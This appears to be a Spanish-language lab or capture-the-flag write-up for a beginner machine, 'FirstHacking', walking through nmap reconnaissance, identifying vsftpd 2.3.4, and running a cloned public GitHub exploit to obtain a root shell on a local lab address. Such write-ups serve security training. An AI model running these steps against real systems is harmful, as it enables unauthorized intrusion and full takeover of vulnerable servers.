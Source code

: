 ```yaml
---
description: >-
  ✍️ Autor: El Pingüino de Mario🔍 Dificultad: Muy Fácil  📅 Fecha de creación:
  01/01/2000
---
```


# FirstHacking

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/0 (2).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

![](<../../.gitbook/assets/1 (2).png>)

Como podemos observar durante el escaneo que el **puerto 21** perteneciente al **servicio FTP** está abierto por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Para saber más información sobre el puerto abierto, se realiza el siguiente comando:

```bash
nmap -sCV -p21 172.17.0.2 -oN targeted
```

![](<../../.gitbook/assets/2 (2).png>)

Como se puede observar, la versión del servicio **FTP** nos puede ayudar, ya que podría ser vulnerable. Para verificar esto, realizamos el comando:

```bash
searchsploit vsftpd 2.3.4
```

<figure><img src="../../.gitbook/assets/3 (2).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

En este caso, utilizaremos un exploit que encontramos en GitHub. Seguimos las instrucciones indicadas en la página, lo que nos permite crear una reverse shell con privilegios de usuario **root** en la máquina. Para ello, se realizan los siguientes comandos:

```bash
sudo python3 -m pip install pwntools
git clone https://github.com/Hellsender01/vsftpd_2.3.4_Exploit.git
cd vsftpd_2.3.4_Exploit/
chmod +x exploit.py
```

Para continuar con la fase de explotación, creamos un entorno virtual para ejecutar el exploit con los siguientes comandos:

```bash
python3 -m venv myenv
source myenv/bin/activate
pip install --upgrade pip
pip install pwntools
```

A continuación, ya podemos ejecutar el exploit con:

```bash
python3 exploit.py 172.17.0.2
```

![](<../../.gitbook/assets/4 (2).png>)

### 🔐 **PRIVILEGIOS**

Tras estar dentro de la shell, comprobamos quiénes somos a través de:

```bash
whoami
```

![](<../../.gitbook/assets/5 (2).png>)

Observamos que somos **root** por lo que tenemos el máximo de privilegios.
